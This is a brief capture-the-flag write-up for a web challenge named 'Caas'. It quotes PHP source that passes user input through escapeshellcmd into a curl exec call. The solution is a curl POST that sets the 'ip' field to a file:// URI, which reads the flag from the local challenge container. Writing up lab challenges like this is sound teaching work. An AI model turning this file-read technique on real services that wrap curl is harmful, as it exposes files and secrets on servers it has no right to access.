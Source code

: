 # Caas

## Challenge

```plain
cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites.
However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.
```

This challenge comes with a Dockerfile and the source for the site.

## Solution

Running the container and looking a bit inside the source yields the following:

1. The website doesn't work (at least I never got it to work)
2. There is another endpoint `/api/curl`

### The custom endpoint

The following code will call `CurlController@execute`

```php
$router->new('POST', '/api/curl', 'CurlController@execute' );
```

Looking at `CurlController@execute` will tell us that the `ip` value from a
`POST` request will be handled to `$command->exec()`

```php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

exec will take the user input, sanitize it for known shellcode and then run it.

Well... curl can take `file://` URIs... so:

```bash
curl -X POST -d "ip=file:///flag" -H "Content-Type:application/x-www-form-urlencoded" http://127.0.0.1:1337/api/curl
```
